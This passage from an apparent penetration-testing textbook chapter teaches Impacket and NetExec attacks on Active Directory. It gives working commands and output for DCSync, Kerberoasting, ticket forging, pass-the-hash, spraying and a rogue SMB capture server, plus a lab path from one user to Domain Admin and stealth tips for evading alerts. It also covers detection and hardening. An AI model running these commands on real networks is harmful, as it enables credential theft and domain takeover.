That `krbtgt` NT + AES key is the material for a **Golden Ticket** (Chapter 6). This one command is the definition of "domain compromise."

Essential `secretsdump.py` flags:

| Flag | Effect |
|------|--------|
| `-just-dc` | Dump NTDS.dit (hashes **and** Kerberos keys) via DRSUAPI |
| `-just-dc-ntlm` | NTDS hashes only (faster, no Kerberos keys) |
| `-just-dc-user <user>` | DCSync a **single** target account (stealthier — e.g. just `krbtgt`) |
| `-history` | Include password history hashes |
| `-pwd-last-set` | Show when each password was last changed (triage stale/uncracked) |
| `-user-status` | Show whether each account is enabled/disabled |
| `-sam / -security / -system` | Parse offline hive files instead of a live target |
| `-outputfile <base>` | Write `.sam`, `.secrets`, `.ntds` files (feed straight to hashcat) |

**Stealth note:** `-just-dc-user krbtgt` performs a *targeted* DCSync of one account, generating far less replication traffic than dumping the whole directory — the difference between one suspicious replication and thousands. **Blue-team relevance:** DCSync from a non-DC source shows up as **Directory Service Access (Event 4662)** with the `DS-Replication-Get-Changes` control access right GUID, from an account that is not a DC — the canonical DCSync detection (covered fully in Part 13).

---

## Part 6: The Kerberos Family — Tickets In, Tickets Out

Impacket's Kerberos scripts all revolve around the **credential cache (ccache)** file and the `KRB5CCNAME` environment variable. The pattern is always: one script *produces* a ccache, another *consumes* it. Understanding this pipe is the whole game.



### 6.1 getTGT.py — request a TGT into a ccache

```bash
# From a password:
getTGT.py CORP.LOCAL/jsmith:'P@ssw0rd!' -dc-ip 10.10.10.10
# From an NT hash (OverPass-the-Hash / pass-the-key):
getTGT.py CORP.LOCAL/jsmith -hashes :64f12cddaa88057e06a81b54e73b949b -dc-ip 10.10.10.10
# From an AES256 key (stealthier — matches modern default etype, avoids RC4 downgrade alerts):
getTGT.py CORP.LOCAL/jsmith -aesKey 5e9c...b1 -dc-ip 10.10.10.10
```

```
[*] Saving ticket in jsmith.ccache
```

Then load it:

```bash
export KRB5CCNAME=$(pwd)/jsmith.ccache
klist        # (from krb5-user) shows the cached TGT
```

**Red-team relevance:** turning a stolen NT hash into a TGT (`getTGT.py -hashes`) is **OverPass-the-Hash** — it launders an NTLM secret into a Kerberos ticket, so subsequent lateral movement looks like normal Kerberos and dodges NTLM-focused detections. Using `-aesKey` is quieter still because it doesn't force RC4 (etype 23), which many SOCs alert on.

### 6.2 getST.py — request a service ticket (and S4U for delegation)

```bash
# Simple: get a CIFS ticket for a host you'll psexec into
getST.py -spn cifs/fileserver01.corp.local CORP.LOCAL/jsmith:'P@ssw0rd!' -dc-ip 10.10.10.10
```

`getST.py` is also the delegation weapon (Chapter 8): with `-impersonate`, it performs **S4U2Self + S4U2Proxy** to obtain a service ticket *as another user* (e.g. Administrator) when you control a delegation-enabled account:

```bash
getST.py -spn cifs/fileserver01.corp.local -impersonate Administrator \
  CORP.LOCAL/webservice:'SvcP@ss' -dc-ip 10.10.10.10
```

The resulting ccache authenticates to that service **as Administrator** — the constrained-delegation privilege escalation, delivered in one command.

### 6.3 GetUserSPNs.py — Kerberoasting

Requests TGS tickets for every account with a Service Principal Name and formats the encrypted portion as a hashcat-crackable hash (Chapter 4):

```bash
GetUserSPNs.py -request -dc-ip 10.10.10.10 CORP.LOCAL/jsmith:'P@ssw0rd!' -outputfile spns.hash
```

```
ServicePrincipalName  Name     MemberOf                         PasswordLastSet
--------------------  -------  -------------------------------  -------------------
MSSQLSvc/db01:1433    SQLSvc   CN=Domain Admins,CN=Users,...    2019-03-04 ...
[*] Saving in spns.hash
$krb5tgs$23$*SQLSvc$CORP.LOCAL$MSSQLSvc/db01~1433*$a1b2...   <-- crack with hashcat -m 13100
```

That `SQLSvc` is in **Domain Admins** and Kerberoastable — a textbook finding. `-request-user <name>` roasts a single account; `-usersfile` roasts a list.

### 6.4 GetNPUsers.py — AS-REP Roasting

Finds accounts with **"Do not require Kerberos preauthentication"** set and extracts their AS-REP hash *without any credentials* (or with a low-priv account to enumerate):

```bash
GetNPUsers.py CORP.LOCAL/ -usersfile users.txt -no-pass -dc-ip 10.10.10.10 -format hashcat
```

```
$krb5asrep$23$svc-legacy@CORP.LOCAL:9a8b...   <-- crack with hashcat -m 18200
```

### 6.5 ticketer.py and raiseChild.py — forging and cross-domain

- **`ticketer.py`** forges **Golden** (needs `krbtgt` key) and **Silver** (needs a service account key) tickets offline (Chapter 6):

```bash
ticketer.py -domain CORP.LOCAL -domain-sid S-1-5-21-111-222-333 \
  -nthash <krbtgt_nt_hash> Administrator
export KRB5CCNAME=Administrator.ccache   # now a forged TGT for Administrator
```

- **`raiseChild.py`** automates the classic **child-domain → forest-root** escalation using the child's `krbtgt` plus SID history / the enterprise-admin SID — one command from child DA to forest EA.

| Kerberos script | Consumes | Produces / Effect |
|-----------------|----------|-------------------|
| `getTGT.py` | password / hash / aesKey | TGT ccache |
| `getST.py` | TGT (or creds) | service ticket ccache; `-impersonate` = S4U |
| `GetUserSPNs.py` | domain creds | `$krb5tgs$` hashes (Kerberoast) |
| `GetNPUsers.py` | (often none) | `$krb5asrep$` hashes (AS-REP roast) |
| `ticketer.py` | krbtgt/service key | forged Golden/Silver ccache |
| `raiseChild.py` | child-domain DA | forest-root compromise |

---
## Part 7: The MSRPC & SMB Utility Scripts — Enumeration Without Credentials-Plus

Beyond execution and dumping, Impacket ships a set of scripts that speak individual MS-RPC interfaces directly. These are your precision enumeration tools, and several work with *very* little privilege — sometimes a null or guest session.

### 7.1 lookupsid.py — SID brute-forcing / RID cycling

Uses the **LSARPC** interface to translate SIDs to names and back. Point it at a DC and it will "RID cycle" — walk RIDs from 500 upward — to enumerate **every domain user and group**, sometimes over a null session on misconfigured DCs:

```bash
lookupsid.py CORP.LOCAL/jsmith:'P@ssw0rd!'@10.10.10.10
# null-session attempt:
lookupsid.py CORP.LOCAL/@10.10.10.10 -no-pass
```

```
[*] Domain SID is: S-1-5-21-111-222-333
500: CORP\Administrator (SidTypeUser)
512: CORP\Domain Admins (SidTypeGroup)
1104: CORP\jsmith (SidTypeUser)
1105: CORP\svc-backup (SidTypeUser)
```

**Why it matters:** it gives you the **domain SID** (needed for Golden Tickets and SID-history attacks) and a full user list for password spraying — often before you have any real foothold.

### 7.2 samrdump.py — enumerate accounts via SAMR

Uses **SAMR** to list users, groups, and the account/password policy of a host or domain:

```bash
samrdump.py CORP.LOCAL/jsmith:'P@ssw0rd!'@10.10.10.10
```

Returns each account with `Last logon`, `Password expired`, flags like `ACCOUNT_DISABLED` / `DONT_EXPIRE_PASSWD` — useful for spotting stale, never-expiring service accounts.

### 7.3 rpcdump.py — enumerate RPC endpoints

Queries the **endpoint mapper (EPM, port 135)** to list every registered RPC interface and its binding. This is how you *discover* whether coercion/relay interfaces (MS-EFSR/PetitPotam, MS-RPRN/PrinterBug) are exposed:

```bash
rpcdump.py @10.10.10.10 | grep -iE 'efs|spool|rprn|dfsn'
```

### 7.4 reg.py and services.py — remote registry and service control

- **`reg.py`** reads/writes the remote registry over the WINREG pipe — e.g. dump specific hives, or query `Run` keys, or check LSA protection state:

```bash
reg.py CORP.LOCAL/administrator:'P@ssw0rd!'@10.10.10.25 query -keyName 'HKLM\SYSTEM\CurrentControlSet\Control\Lsa'
```

- **`services.py`** enumerates/creates/starts/stops/deletes Windows services over SVCCTL — handy to inspect service binaries for unquoted-path or weak-permission privesc:

```bash
services.py CORP.LOCAL/administrator:'P@ssw0rd!'@10.10.10.25 list
```

### 7.5 smbclient.py and smbserver.py — the two SMB workhorses

- **`smbclient.py`** is an interactive SMB client (like the Windows `net use` + explorer): list shares, `cd`, `get`, `put`:

```bash
smbclient.py CORP.LOCAL/jsmith:'P@ssw0rd!'@10.10.10.25
# shares -> use SYSVOL -> ls -> get script.ps1
```

- **`smbserver.py`** stands up a **rogue SMB server** on your attack box in one command — indispensable for exfil, for hosting a payload, and (with `-smb2support`) as the *listener* half of an **NTLM capture/relay** or for pulling files off a victim via a UNC path:

```bash
# Host the current dir as share "share", capture any NTLMv2 that authenticates:
smbserver.py -smb2support share $(pwd)
```

Any Windows host coerced into authenticating to `\\<your-ip>\share` will hand you a **NetNTLMv2** hash you can crack (hashcat `-m 5600`) or relay — the receiving end of Chapter 10's coercion attacks.

| Script | Interface/Port | Typical use |
|--------|---------------|-------------|
| `lookupsid.py` | LSARPC / 445 | Domain SID + RID-cycle user list (sometimes null) |
| `samrdump.py` | SAMR / 445 | Users, groups, password policy |
| `rpcdump.py` | EPM / 135 | Discover exposed RPC interfaces (coercion surface) |
| `reg.py` | WINREG / 445 | Remote registry read/write |
| `services.py` | SVCCTL / 445 | Enumerate/control services |
| `smbclient.py` | SMB / 445 | Interactive share access |
| `smbserver.py` | SMB / 445 (listener) | Rogue share: exfil, payload host, NTLM capture |

---

## Part 8: NetExec (nxc) From Zero — What It Is and How to Install It

**What NetExec is.** NetExec — invoked as `nxc` — is the actively maintained community fork of **CrackMapExec (CME)**, which its original author archived in 2023. It is a "swiss-army knife for pentesting networks": you give it *a protocol, a target range, and a credential*, and it validates that credential and enumerates against every host at once, multi-threaded, writing results to a local SQLite database. Under the hood it uses Impacket (and other libraries) for the actual protocol work — so think of NetExec as "Impacket, but pointed at 250 hosts with a results database and a module system bolted on."

**Why it replaced CrackMapExec:** CME development stopped; NetExec picked it up, fixed long-standing bugs, added protocols (notably `ldap`, `ssh`, `ftp`, `nfs`, `wmi`), improved Kerberos support, and ships a growing module library. The command name changed from `crackmapexec`/`cme` to `netexec`/`nxc`. **If a blog says `cme smb ...`, mentally substitute `nxc smb ...`** — the syntax is nearly identical.

**Install on Kali:**

```bash
# Packaged (may lag):
sudo apt install -y netexec

# Recommended — current release via pipx:
sudo apt install -y pipx && pipx ensurepath
pipx install git+https://github.com/Pennyw0rth/NetExec

nxc --version
nxc smb --help | head
```

**Supported protocols** (each is a first argument to `nxc`):

| Protocol | What it does |
|----------|-------------|
| `smb` | The flagship: auth check, admin check, shares, sessions, users, dump SAM/LSA, spider, modules |
| `winrm` | Test/execute over WinRM (5985/5986) — often works where SMB exec is blocked |
| `ldap` | Query the directory: users, BloodHound collection, Kerberoast/AS-REP roast over LDAP, delegation |
| `mssql` | Authenticate to SQL Server, run queries, `xp_cmdshell`, relay |
| `ssh` | Validate SSH creds across hosts (Linux estate) |
| `ftp` | Validate FTP creds |
| `wmi` | Execute/enumerate over WMI |
| `rdp` | Check RDP access / NLA |
| `nfs` | Enumerate NFS exports |

The SQLite database lives at `~/.nxc/` (workspaces), and the config at `~/.nxc/nxc.conf`. Everything NetExec learns — valid creds, admin relationships, hosts — is stored there and reusable across sessions with `nxc <proto> --list-creds` / the `nxcdb` shell.

---
## Part 9: NetExec in Depth — From "Does This Work?" to "Dump Everything"

The whole value of NetExec is the *progression* it lets you run in minutes against a whole subnet. Walk it in order.

### 9.1 The anatomy of an nxc command

```
nxc <protocol> <target> -u <user> -p <password> [auth flags] [action flags] [-M module]
```

- **`<target>`** can be a single IP, a CIDR (`10.10.10.0/24`), a range, a hostname, or a file of targets (`-t targets.txt` / just pass the filename).
- **`-u`/`-p`** each accept a value **or a file** — pass a userlist and passwordlist and NetExec sprays.

### 9.2 Step 1 — validate the credential and find where you're admin

```bash
nxc smb 10.10.10.0/24 -u jsmith -p 'P@ssw0rd!' -d CORP.LOCAL
```

```
SMB   10.10.10.10  445  DC01     [*] Windows Server 2019 Build 17763 x64 (name:DC01) (domain:CORP.LOCAL) (signing:True) (SMBv1:False)
SMB   10.10.10.25  445  FILE01   [*] Windows Server 2019 Build 17763 x64 (name:FILE01) (domain:CORP.LOCAL) (signing:False) (SMBv1:False)
SMB   10.10.10.10  445  DC01     [+] CORP.LOCAL\jsmith:P@ssw0rd!
SMB   10.10.10.25  445  FILE01   [+] CORP.LOCAL\jsmith:P@ssw0rd! (Pwn3d!)
```

Read those two markers carefully — they are the entire point of NetExec:

- **`[+]`** = the credential is **valid** on that host.
- **`(Pwn3d!)`** = you are **local administrator** on that host (NetExec confirmed it can access `ADMIN$`). FILE01 says `Pwn3d!` → you can run any Impacket execution method or `nxc`'s own `-x` there.

Also note **`signing:False`** on FILE01 — that host is a candidate **NTLM relay target** (Chapter 10). NetExec surfaces SMB signing status for free, which is why it's a relay-recon staple.

### 9.3 Step 2 — enumerate broadly

```bash
# Shares readable/writable by this user, across the subnet:
nxc smb 10.10.10.0/24 -u jsmith -p 'P@ssw0rd!' --shares
# Logged-on users (find where admins have sessions -> lateral targets):
nxc smb 10.10.10.0/24 -u jsmith -p 'P@ssw0rd!' --loggedon-users
# Local users, domain users, password policy, computers:
nxc smb DC01 -u jsmith -p 'P@ssw0rd!' --users
nxc smb DC01 -u jsmith -p 'P@ssw0rd!' --pass-pol
nxc ldap DC01 -u jsmith -p 'P@ssw0rd!' --users --admin-count
```

`--pass-pol` output tells you the **lockout threshold** *before* you spray — essential so you don't lock out the domain:

```
SMB  DC01  445  [+] Dumping password info for domain: CORP
SMB  DC01  445  Minimum password length: 7
SMB  DC01  445  Account Lockout Threshold: 5
SMB  DC01  445  Reset Account Lockout Counter: 30 minutes
```

### 9.4 Step 3 — spray safely

NetExec is the standard password/hash-spraying tool. **Always check `--pass-pol` first**, then `--continue-on-success` to test one password against many users without stopping at the first hit, and pace with the lockout window in mind:

```bash
# One password vs many users (classic spray):
nxc smb DC01 -u users.txt -p 'Spring2026!' --continue-on-success
# Confirm no lockouts by staying under threshold and adding delay via -d loop externally
```

### 9.5 Step 4 — dump secrets directly (no separate secretsdump needed)

Where you're `Pwn3d!`, NetExec dumps secrets itself (it calls Impacket internally):

```bash
nxc smb 10.10.10.25 -u administrator -p 'P@ssw0rd!' --sam       # local SAM hashes
nxc smb 10.10.10.25 -u administrator -p 'P@ssw0rd!' --lsa       # LSA secrets + cached creds
nxc smb DC01        -u administrator -p 'P@ssw0rd!' --ntds      # DCSync the domain (needs rights)
```

```
SMB  10.10.10.25  445  FILE01  [+] Dumping SAM hashes
SMB  10.10.10.25  445  FILE01  Administrator:500:aad3b...:32ed87bdb5fdc5e9cba88547376818d4:::
SMB  10.10.10.25  445  FILE01  [+] Added 3 SAM hashes to the database
```

Note "**Added to the database**" — those hashes are now stored and reusable.

### 9.6 Step 5 — execute commands where you're admin

```bash
# Command execution (defaults to trying wmiexec then smbexec-style methods):
nxc smb 10.10.10.25 -u administrator -H 32ed87bdb5fdc5e9cba88547376818d4 -x 'whoami'
# Force a method / use PowerShell:
nxc smb 10.10.10.25 -u administrator -p 'P@ssw0rd!' --exec-method smbexec -X '$PSVersionTable'
```

Note the `-H` there — that's Pass-the-Hash (see Part 11). `-x` runs cmd, `-X` runs PowerShell.

### 9.7 Step 6 — spider shares for secrets

The `spider_plus` module recursively crawls readable shares and downloads/records interesting files (configs, scripts, `.kdbx`, `unattend.xml`) — a top source of plaintext creds:

```bash
nxc smb 10.10.10.0/24 -u jsmith -p 'P@ssw0rd!' -M spider_plus -o DOWNLOAD_FLAG=True
# Metadata + downloaded loot land under ~/.nxc/modules/nxc_spider_plus/
```

### 9.8 The module system

`nxc <proto> -L` lists modules; `-M <name>` runs one; `-o KEY=val` passes options. High-value SMB/LDAP modules:

| Module | Protocol | Purpose |
|--------|----------|---------|
| `spider_plus` | smb | Recursive share crawl + loot download |
| `lsassy` | smb | Remotely dump LSASS and parse creds (needs admin) |
| `nanodump` | smb | Stealthier LSASS dump |
| `bloodhound` | ldap | Run BloodHound collection over LDAP |
| `ldap-checker` | ldap | Test LDAP signing / channel binding (relay viability) |
| `maq` | ldap | Read `ms-DS-MachineAccountQuota` (can you add computers? → RBCD/noPac) |
| `zerologon` / `petitpotam` / `nopac` | smb/ldap | Safe *checks* for those CVEs |
| `gpp_password` / `gpp_autologin` | smb | Find cpassword in SYSVOL Group Policy Preferences |
| `enum_avproducts` | smb | Enumerate installed AV/EDR |

**Bug-bounty / CTF relevance:** on HackTheBox and TryHackMe AD boxes, the `nxc smb ... --shares` → `spider_plus` → `gpp_password` → `--ntds` chain is one of the most common intended paths; the `(Pwn3d!)` marker is frequently the moment a box "falls."

---

## Part 10: NetExec vs CrackMapExec vs Impacket — Choosing Under Pressure

A quick consolidation, because in practice these overlap and beginners freeze deciding which to type.



- **CrackMapExec is deprecated.** Use **NetExec (`nxc`)**. Old commands map 1:1 — `cme` → `nxc`.
- **NetExec for breadth**, Impacket for depth. NetExec answers "where and what"; Impacket does the surgical, high-impact single-target action.
- They **share DNA** — NetExec calls Impacket internally, so a bug in one often reproduces in the other, and hash/ticket formats are interchangeable between them.

---
## Part 11: Passing Every Kind of Credential Material

The reason this toolkit is so powerful is that Windows lets you authenticate with **more than a password**, and both Impacket and NetExec accept every form. Internalise the five materials and the flags for each — this table is the operational heart of the chapter.

| Material | What it is | NetExec flag | Impacket flag |
|----------|-----------|--------------|---------------|
| **Cleartext password** | The actual password | `-p 'Pass'` | `user:'Pass'@host` |
| **NT hash (Pass-the-Hash)** | The unsalted MD4 of the password | `-H <nthash>` | `-hashes :<nthash>` |
| **Kerberos TGT/ccache (Pass-the-Ticket)** | A cached Kerberos ticket | `-k` (+ `KRB5CCNAME`) | `-k -no-pass` (+ `KRB5CCNAME`) |
| **AES key (Pass-the-Key / OverPtH)** | The account's Kerberos AES256/128 key | `--aesKey <hex>` | `-aesKey <hex>` |
| **Null / Guest session** | Unauthenticated or guest access | `-u '' -p ''` | `user:@host -no-pass` |

### 11.1 Pass-the-Hash in both tools

```bash
# NetExec: spray an NT hash across the subnet to find reuse
nxc smb 10.10.10.0/24 -u administrator -H 32ed87bdb5fdc5e9cba88547376818d4 --local-auth
# Impacket: PtH into a SYSTEM shell (note the LEADING COLON)
psexec.py -hashes :32ed87bdb5fdc5e9cba88547376818d4 CORP.LOCAL/administrator@10.10.10.25
```

The NetExec `--local-auth` flag is critical: it authenticates against the host's **local** SAM rather than the domain — exactly how you exploit **local-admin password reuse**. Spray one local Administrator hash with `--local-auth` across a `/24` and every `(Pwn3d!)` is another host owned via reuse.

### 11.2 Pass-the-Ticket in both tools

```bash
# Obtain ticket (Part 6), then:
export KRB5CCNAME=/root/jsmith.ccache
nxc smb file01.corp.local --use-kcache            # NetExec reads the ccache
wmiexec.py -k -no-pass CORP.LOCAL/jsmith@file01.corp.local -dc-ip 10.10.10.10
```

Remember: **Kerberos requires the FQDN, not the IP** — both `nxc ... file01.corp.local` and Impacket `@file01.corp.local`, never `@10.10.10.25`, or you'll get `KRB_AP_ERR_MODIFIED` / SPN errors.

### 11.3 The null / guest session

Before you have *any* credential, test what an unauthenticated session leaks — sometimes a lot on legacy/misconfigured hosts:

```bash
nxc smb 10.10.10.10 -u '' -p ''                 # null session: OS, domain, sometimes shares/users
nxc smb 10.10.10.10 -u 'guest' -p ''            # guest, if enabled
lookupsid.py CORP.LOCAL/@10.10.10.10 -no-pass   # RID-cycle over null (misconfigured DCs)
```

---

## Part 12: Hands-On Lab — One Credential to Domain Admin With the Toolkit

This is the fully worked, reproducible walkthrough. It assumes the lab in Part 14: a domain `CORP.LOCAL`, DC `DC01` (10.10.10.10), member server `FILE01` (10.10.10.25), and one starting credential `jsmith:P@ssw0rd!` — a **standard domain user with no admin rights**, exactly the assumed-breach starting point of Chapter 1. Every command below is one you'd actually type; every output block is representative of what you'd see.

**Attack overview:**



### Step 1 — Map the credential across the network

```bash
nxc smb 10.10.10.0/24 -u jsmith -p 'P@ssw0rd!' -d CORP.LOCAL
```
```
SMB  10.10.10.10  445  DC01    [+] CORP.LOCAL\jsmith:P@ssw0rd!
SMB  10.10.10.25  445  FILE01  [+] CORP.LOCAL\jsmith:P@ssw0rd!   (signing:False)
```

Valid everywhere, `Pwn3d!` nowhere yet — jsmith is not admin. Note FILE01 `signing:False` for later.

### Step 2 — Check the domain password policy, then enumerate shares

```bash
nxc smb DC01 -u jsmith -p 'P@ssw0rd!' --pass-pol
nxc smb 10.10.10.0/24 -u jsmith -p 'P@ssw0rd!' --shares
```
```
SMB  DC01    445  Account Lockout Threshold: 5
SMB  10.10.10.10 445 DC01  READ  SYSVOL
SMB  10.10.10.25 445 FILE01 READ,WRITE  Deployment
SMB  10.10.10.25 445 FILE01 READ  IT$
```

### Step 3 — Hunt SYSVOL for a Group Policy Preferences password

Legacy GPP stored passwords AES-encrypted with a **Microsoft-published key** — trivially decryptable. NetExec's module finds and decrypts them:

```bash
nxc smb DC01 -u jsmith -p 'P@ssw0rd!' -M gpp_password
```
```
SMB  DC01  445  [+] Found SYSVOL share
SMB  DC01  445  gpp_password  Groups.xml -> user: svc-deploy  password: D3pl0yMe2024!
```

### Step 4 — Test the recovered service credential; find where it's admin

```bash
nxc smb 10.10.10.0/24 -u svc-deploy -p 'D3pl0yMe2024!' -d CORP.LOCAL
```
```
SMB  10.10.10.25  445  FILE01  [+] CORP.LOCAL\svc-deploy:D3pl0yMe2024!  (Pwn3d!)
```

`svc-deploy` is **local admin on FILE01**. First `Pwn3d!` — foothold with code exec.

### Step 5 — Dump FILE01's secrets

```bash
nxc smb 10.10.10.25 -u svc-deploy -p 'D3pl0yMe2024!' --sam --lsa
```
```
FILE01  [+] Dumping SAM hashes
FILE01  Administrator:500:aad3b...:9a3ec... :::
FILE01  [+] Dumping LSA secrets
FILE01  CORP\SQLSvc:SQL$erverSvc!2023            <-- domain service acct, cleartext
FILE01  CORP.LOCAL/jsmith:$DCC2$...              <-- cached domain creds
```

The LSA dump handed us **`SQLSvc`'s cleartext domain password**. Confirm and profile it:

```bash
nxc ldap DC01 -u SQLSvc -p 'SQL$erverSvc!2023' --admin-count
```
```
LDAP DC01  [+] CORP.LOCAL\SQLSvc:SQL$erverSvc!2023
LDAP DC01  adminCount=1   memberOf: CN=Domain Admins,...
```

`SQLSvc` is in **Domain Admins**. (Alternatively you'd reach the same place by Kerberoasting it: `GetUserSPNs.py -request` → hashcat `-m 13100` → crack.)

### Step 6 — DCSync the domain with the Domain Admin service account

```bash
secretsdump.py -just-dc-ntlm CORP.LOCAL/SQLSvc:'SQL$erverSvc!2023'@DC01 -dc-ip 10.10.10.10
```
```
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d7e9a1...:::
CORP\Administrator:500:aad3b...:32ed87bdb5fdc5e9cba88547376818d4:::
CORP\jsmith:1104:aad3b...:64f12cddaa88057e06a81b54e73b949b:::
[*] Cleaning up...
```

We now hold **every hash in the domain, including `krbtgt`**. That is full domain compromise.

### Step 7 — Prove domain-wide control (Pass-the-Hash as Administrator)

```bash
psexec.py -hashes :32ed87bdb5fdc5e9cba88547376818d4 CORP.LOCAL/Administrator@DC01
```
```
[*] Creating service ... on DC01
C:\Windows\system32> whoami
nt authority\system
```

SYSTEM on the Domain Controller, reached from one standard-user credential using only NetExec and Impacket. The `krbtgt` hash additionally enables a **Golden Ticket** (Chapter 6) for durable, offline-forgeable domain persistence — which is exactly why remediation after such a finding requires a *double* `krbtgt` reset.

**Lab lesson:** notice how the two toolkits interleaved — NetExec for every "where does this work / what can I see" step, Impacket for every "do the precise high-impact thing" step. That rhythm is the engagement.

---
## Part 13: Detection & Defense Angle

Everything above is exactly what a defender must be able to see. Because Impacket and NetExec abuse *legitimate* remote-management protocols, prevention is partial — the emphasis is on **detection of the distinctive artefacts** and on **removing the privileges** that make the tools work. This section consolidates the blue-team story per technique.

### 13.1 Detecting the five execution methods

Each engine leaves a different, huntable trace:

| Method | Primary event(s) | Distinguishing artefact to hunt |
|--------|------------------|--------------------------------|
| `psexec.py` | **7045** (System, service installed), **4697**, **4688** | Randomly named service + `.exe` in `ADMIN$`; `services.exe`→random exe; short-lived service |
| `smbexec.py` | **7045/7036** repeated, **4688** | Service cmdline containing `cmd.exe /c ... > %TEMP%\...`; repeated service create/delete |
| `wmiexec.py` | **4688** with parent `WmiPrvSE.exe`; WMI-Activity Operational log | `WmiPrvSE.exe` → `cmd.exe`/`powershell.exe`; output redirect to `\\127.0.0.1\ADMIN$` |
| `atexec.py` | **4698** (task created), **4699** (deleted), **4700/4702** | Scheduled task with random name, created and deleted seconds apart |
| `dcomexec.py` | **4688** with parent `mmc.exe`/`explorer.exe` | COM server (`MMC20`/`ShellWindows`) spawning `cmd.exe` |

**A signature common to Impacket-style output retrieval:** several methods write command output to a share and read it back — hunting for **SMB writes of small temp files to `ADMIN$`/`C$` immediately followed by reads** catches wmiexec/smbexec/atexec regardless of the execution primitive. Enable **command-line auditing (4688 with process cmdline)** and Sysmon (Event ID 1 process create, 3 network, 11 file create) to make all of these visible.



### 13.2 Detecting secretsdump / DCSync

- **Local SAM/LSA dump:** `secretsdump.py` starts and stops the **RemoteRegistry** service — a **7045/7036** pair plus WINREG access from a remote host is a strong indicator when RemoteRegistry is normally disabled. Sysmon file/registry access to `SAM`/`SECURITY` hives is another signal.
- **DCSync (`-just-dc`):** the canonical detection is **Event ID 4662 (Directory Service Access)** where the **Properties** field contains the replication control-access-right GUIDs — `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` (DS-Replication-Get-Changes) and `1131f6ad-...` (…-All) — **from an account/host that is not a Domain Controller**. Legitimate replication only happens *between DCs*, so DCSync from a workstation/service account is high-fidelity. Alert on it.

### 13.3 Detecting NetExec sweeps

NetExec's breadth is its tell: **one source IP authenticating to many hosts in seconds** (a fan-out of **4624/4625** logon events across the subnet), often with **NTLM** (etype/`Authentication Package: NTLM`) and frequently touching `IPC$`/`ADMIN$`. Spraying shows as **many 4625 (failed logon)** for many usernames from one source, and `--pass-pol`/`--users` enumeration hits SAMR/LSARPC. A SIEM rule for "single source → N distinct hosts authenticated within M seconds" catches the sweep even when each individual logon looks normal.

### 13.4 Detecting Kerberoasting / AS-REP roasting

- **Kerberoasting (`GetUserSPNs.py`):** a burst of **TGS-REQ (Event 4769)** for many SPNs from one user, especially with **encryption type 0x17 (RC4)** — attackers request RC4 because it cracks faster. Alert on 4769 with etype 0x17 for service accounts, and on many distinct SPNs requested by one principal in a short window.
- **AS-REP roasting (`GetNPUsers.py`):** **Event 4768 (AS-REQ)** for accounts with pre-auth disabled, or a spike of AS-REQs enumerating usernames. The real fix is *removing* "Do not require Kerberos pre-authentication" everywhere it isn't needed.

### 13.5 Prevention — remove the preconditions

Detection is half the story; these controls remove the *ability*:

- **Kill local-admin password reuse — deploy LAPS/Windows LAPS.** Unique, rotated local Administrator passwords defeat the `--local-auth` PtH-spray path outright (Part 11 / lab Step 4–5).
- **Enable SMB signing (and LDAP signing + channel binding).** `signing:False` hosts are relay targets; signing blocks the relay half of the toolkit (Chapter 10).
- **Tier administration.** Never let Domain Admins log on to member servers/workstations — that is what seeds LSASS/cached credentials for `--lsa`/`secretsdump` to harvest. Use the tiered-admin model and Protected Users / authentication policy silos.
- **Constrain and audit replication rights** so only DCs hold `DS-Replication-Get-Changes-All`; alert on 4662 as above. Remove GPP `cpassword` (MS14-025) and purge legacy `Groups.xml` from SYSVOL (lab Step 3).
- **Disable RemoteRegistry** where unneeded, restrict WMI/DCOM remote access, and turn on **command-line + PowerShell script-block logging** so the execution methods are visible.
- **Use AES-only Kerberos and strong service-account passwords (or gMSAs)** to make Kerberoasting economically useless; a 25+ character random gMSA password is not crackable.

The symmetry from Chapter 1 holds: every step of the Part 12 lab maps to a control here. Read the attack path backwards and it becomes the remediation checklist.

---

## Part 14: Building the Lab

Reproduce everything above safely in an isolated environment. Minimum viable AD lab:

1. **Domain Controller** — Windows Server 2019/2022 evaluation ISO. Promote to a DC for `CORP.LOCAL` (`Install-ADDSForest`). This is `DC01` / 10.10.10.10.
2. **Member server** — a second Windows Server, domain-joined, as `FILE01` / 10.10.10.25. Create a `Deployment` share (Everyone: Read/Write) and disable SMB signing on it to mirror the lab.
3. **Seed the misconfigurations** to make the walkthrough work: create `svc-deploy` and push a **GPP that sets a local admin password** (leaves `Groups.xml` cpassword in SYSVOL); create `SQLSvc`, add it to **Domain Admins**, give it an SPN (`setspn -a MSSQLSvc/db01.corp.local:1433 SQLSvc`) and cache its creds on FILE01 by running a service as it; create `jsmith` as a plain user.
4. **Attacker box** — Kali VM on the same host-only network (10.10.10.50) with Impacket + NetExec installed per Parts 2 and 8.
5. **Snapshot** every VM before attacking so you can roll back.

**Turn-key alternatives:** [GOAD (Game of Active Directory)](https://github.com/Orange-Cyberdefense/GOAD) builds a deliberately vulnerable multi-domain forest via Vagrant/Ansible and is purpose-built for exactly this toolkit. **BadBlood** populates a DC with thousands of realistic users/ACLs for enumeration practice. For hosted targets, HackTheBox's Pro Labs (Dante, Zephyr, and the AD-focused Cerberus) and the TryHackMe AD path are ideal.

Everything here is for a lab you own or an engagement you are contracted and authorised to test. Do not point any of it at infrastructure you do not have signed permission to attack.

---

## Final Revision / Summary

- **Two toolkits, one division of labour.** **NetExec (`nxc`)** sweeps a credential across many hosts and many protocols to answer *"where does this work and what can I see"*; **Impacket** does the precise, single-target, high-impact action. CrackMapExec is deprecated — `cme` → `nxc`, syntax nearly identical.
- **The shared credential grammar** — `domain/user:pass@host` plus `-hashes :NT` (Pass-the-Hash, mind the leading colon), `-k -no-pass` (Pass-the-Ticket via `KRB5CCNAME`), `-aesKey` (Pass-the-Key/OverPtH) — drives every Impacket script. NetExec mirrors it with `-u/-p/-H/-k/--aesKey/--local-auth`.
- **Five execution engines, five fingerprints.** psexec (service+binary, 7045, SYSTEM, loud) → smbexec (service cmd.exe, SYSTEM) → wmiexec (WMI, auth-user, quiet, no service) → atexec (scheduled task, 4698) → dcomexec (DCOM, mmc parent). Choose by the noise/privilege trade-off.
- **`secretsdump.py` has three sources** — SAM (local hashes → reuse), LSA (service passwords in cleartext, cached DCC2, machine hash), and NTDS.dit via **DRSUAPI/DCSync** (`-just-dc`, incl. `krbtgt`). NetExec exposes the same as `--sam/--lsa/--ntds`.
